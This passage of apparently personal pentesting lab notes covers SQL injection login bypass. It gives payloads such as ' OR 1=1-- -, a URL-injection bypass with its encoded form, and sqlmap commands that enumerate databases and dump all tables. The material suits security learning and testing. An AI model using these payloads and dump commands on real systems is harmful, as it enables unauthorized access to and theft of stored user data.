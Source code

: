 
 If the attacker enters ' OR 1=1-- - in the name parameter and leaves the password blank, the query above will result in the following SQL statement.
```bash
SELECT * FROM users WHERE username = '' OR 1=1-- -' AND password = ''
```
If the database executes the SQL statement above, all the users in the users table are returned. Consequently, the attacker bypasses the application's authentication mechanism and is logged in as the first user returned by the query.

Or bypass the login with both fields `1 or 1=1-- -` will results in the below query. If this doesn't work try converting the query int's to strings via `1' or '1'='1'-- -`
```bash
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=1 or 1=1-- - AND password = 'abba6cc0495da8c6efde88
```

### URL Injection
The login and the client-side validation can then easily be bypassed by going directly to this URL:
```bash
http://$IP:5000/sesqli3/login?profileID=-1' or 1=1-- -&password=a
```

The browser will automatically urlencode this for us. Urlencoding is needed since the HTTP protocol does not support all characters in the request. When urlencoded, the URL looks as follows:
```bash
http://$IP:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a
```

The %27 becomes the single quote (') character and %20 becomes a blank space.

Can also bypass the client side sanitization capturing request with burp and then using some of the above SQL injection methods

## sqlmap

For the help menu `sqlmap -h` or for advanced help `sqlmap --h`

**Simple HTTP GET based test**
```bash
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```
Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database.

**Simple HTTP POST Based Test**
Using burp first, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.

To find the vulnerable parameter look in the saved file. This example the parameter would be "title"

```html
POST /sqli_6.php HTTP/1.1
Host: 192.243.226.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.243.226.3/sqli_6.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Connection: close
Cookie: PHPSESSID=qht4le51fs4sgvp9bu774psa33; security_level=0
Upgrade-Insecure-Requests: 1

title=jazzercise&action=search
```

Then run the command with the saved file:
```bash
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```

Now that we have the databases, let's extract tables from the database.

**Using GET based Method**
  ```bash
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

**Using POST based Method**
```bash
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

Once we run these commands, we should get the tables.

Or we can simply dump all the available databases and tables using the following commands.  

**Using GET based Method**
```bash
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```

**Using POST based Method**

```bash
sqlmap -r req.txt -D <database_name> --dump-all
```

